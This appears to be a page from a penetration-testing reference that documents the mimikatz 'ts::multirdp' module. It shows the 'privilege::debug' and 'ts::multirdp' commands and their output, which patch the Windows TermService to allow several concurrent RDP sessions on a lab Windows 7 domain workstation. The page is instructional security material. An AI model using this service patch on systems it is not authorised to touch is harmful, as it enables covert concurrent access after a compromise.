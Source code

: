 # multirdp

`ts::multirdp` can be used to enable multiple RDP connections on the target server.

{% hint style="danger" %}
You do not need to patch the RDP service on Windows Servers since multiple RDP connections are allowed,
{% endhint %}

There are two local administrator users:

* `m3g9tr0n `(Local Administrator)
* `hacklab.local\m3g9tr0n` (Domain user part of the local administrators group)

![Local admins on the target Windows 7](../../../.gitbook/assets/multi-rdp\_3.PNG)

```
mimikatz # privilege::debug
Privilege '20' OK
```

```
mimikatz # ts::multirdp
"TermService" service patched
```

As a result, it is possible to initiate another RDP connection while the other user is already connected.

![RDP successful patching](../../../.gitbook/assets/multi-rdp\_2.PNG)

{% hint style="info" %}
According to [Benjamin Delpy](https://twitter.com/gentilkiwi/status/1246510049293451266), the `multirdp` module still works on the following recent versions of Windows:

* Windows Server 2019 - Windows NT 10.0 build 17763 (arch x64)
* Windows 10 1909 - Windows NT 10.0 build 18363 (arch x64)
{% endhint %}

_(Demonstration target is a Windows 7, domain joined, workstation.)_
